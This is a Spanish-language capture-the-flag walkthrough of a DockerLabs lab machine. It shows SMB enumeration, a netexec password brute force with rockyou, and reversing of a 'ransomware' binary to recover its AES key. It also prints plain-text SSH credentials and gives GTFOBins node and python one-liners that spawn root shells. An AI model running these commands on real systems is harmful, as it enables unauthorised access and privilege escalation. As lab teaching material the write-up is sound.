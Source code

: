 nmap: 22,139,445

![image](https://github.com/user-attachments/assets/931baef1-b5a7-4fd8-b6e5-f179f512ec2b)


Hacemos una enumeración de la IP

     enum4linux 172.17.0.2

nos da

![image](https://github.com/user-attachments/assets/2d2e925e-c849-46ac-959a-32170bd1e827)

ransomware y dos 3 usuarios

![image](https://github.com/user-attachments/assets/a0c6f96b-478e-489f-9c9c-8f2ddc9d8104)

creamos una carpeta con los 3 usuarios  y lanzamos una fuerza bruta

     netexec smb 172.17.0.2 -u user.txt  -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding

![image](https://github.com/user-attachments/assets/8bcd7bc4-4752-49dc-8183-bb58df2873fa)

probé en ssh y no sirvió pero probamos con el archivo de "ransomware" como es smb intentamos entrar al client

![image](https://github.com/user-attachments/assets/04f71239-4000-464e-b68e-a9208c39b2ca)

tenemos acceso
el contenido de lo que hay es

![image](https://github.com/user-attachments/assets/d665b555-67f7-43d4-8b1f-db9781466551)

ahora para intentar desencriptar el archivo private.txt es necesario hacerle reversing al binario, por lo que hago reversing con ghidra 
viendo el código el algoritmo de cifrado el cual es "AES-256-CBC". por lo que encontré la clave debe tener 32 bytes y el IV debe tener 16. después vemos que  "local_438" hace referencia a "local_438" y "local_430" entonces me da un valor: 1234567890123456
 podemos ver que se le pasa local_428, la cual es una variable que contiene el resultado de la ejecución de la función recon que aparece así
> y0qpfjxbd79047929ew0omqad3f4gscl

encontré un código python que sirve 

![image](https://github.com/user-attachments/assets/19a628e9-9362-4c93-8446-6b9bd9b271ae)

ejecutamos con python en una maquina virtual interna para que funcione el pip

![image](https://github.com/user-attachments/assets/725752b0-9ba5-4ed3-b184-0bb72fca4803)

y nos dio 

      las credenciales ssh son: bob:56000nmqpL

probamos por ssh y tenemos la conexión 

![image](https://github.com/user-attachments/assets/97ea4ba6-06ce-4437-9a32-9f679040763f)

hacemos sudo -l y nos aparece node así que la buscamos https://gtfobins.github.io/gtfobins/node/#sudo

![image](https://github.com/user-attachments/assets/177b0524-935e-4d8d-8321-7360e0d9bfa7)

ahora lanzamos

    sudo -u calamardo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

![[calamardo.png]]

buscando como escalar encontramos esto

![[bash2.png]]

> patricio:Jap0n16ydcbd***

obtenemos conexión a patricio

![[patricio.png]]

en patricio encontramos un python 

![[dockerlabs/dificil/rass/python1.png]]

después de buscar encontré este código en gtfobins https://gtfobins.github.io/gtfobins/python/

![[sudo2.png]]

ejecutamos

     ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'


![[dockerlabs/dificil/rass/root.png]]

lanzamos y obtenemos acceso a root! 
